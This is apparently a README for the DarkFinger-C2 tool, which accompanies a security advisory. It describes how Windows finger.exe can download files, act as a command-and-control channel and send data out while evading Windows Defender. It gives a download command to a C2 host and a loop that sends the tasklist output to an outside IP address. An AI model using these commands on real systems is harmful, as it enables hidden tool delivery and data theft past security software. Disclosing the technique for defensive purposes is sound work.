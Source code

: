 # DarkFinger-C2
Windows TCPIP Finger Command / C2 Channel and Bypassing Security Software

http://hyp3rlinx.altervista.org/advisories/Windows_TCPIP_Finger_Command_C2_Channel_and_Bypassing_Security_Software.txt

Microsoft Windows TCPIP Finger Command "finger.exe" that ships with the OS, can be used as a file downloader and makeshift C2 channel.
Legitimate use of Windows Finger Command is to send Finger Protocol queries to remote Finger daemons to retrieve user information.
However, the finger client can also save the remote server response to disk using the command line redirection operator ">".

Intruders who compromise a computer may find it is locked down and "unknown" applications may be unable to download programs or tools.
By using built-in native Windows programs, its possible they may be whitelisted by installed security programs and allowed to download files.

Redteams and such using LOL methods have made use of "Certutil.exe", native Windows program for downloading files. However, Certutil.exe is
recently blocked by Windows Defender Antivirus and logged as event "Trojan:Win32/Ceprolad.A" when it encounters http/https://.

Therefore, using Windows finger we can bypass current Windows Defender security restrictions to download tools, send commands and exfil data.
The Finger protocol as a C2 channel part works by abusing the "user" token of the FINGER Query protocol "user@host". C2 commands masked as
finger queries can download files and or exfil data without Windows Defender interference.

Download files:
C:\> finger <C2-Command>@HOST > Malwr.txt

Exfil running processes:
C:\> for /f "tokens=1" %i in ('tasklist') do finger %i@192.168.1.21


